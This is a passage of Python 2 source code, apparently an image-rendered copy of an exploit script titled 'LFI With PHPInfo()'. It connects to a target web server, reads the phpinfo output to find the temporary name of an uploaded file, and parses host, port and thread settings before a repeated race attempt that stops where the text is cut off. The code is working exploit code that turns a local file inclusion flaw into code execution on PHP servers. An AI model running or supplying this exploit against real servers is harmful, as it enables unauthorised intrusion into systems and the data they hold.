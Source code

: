 ```python
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
```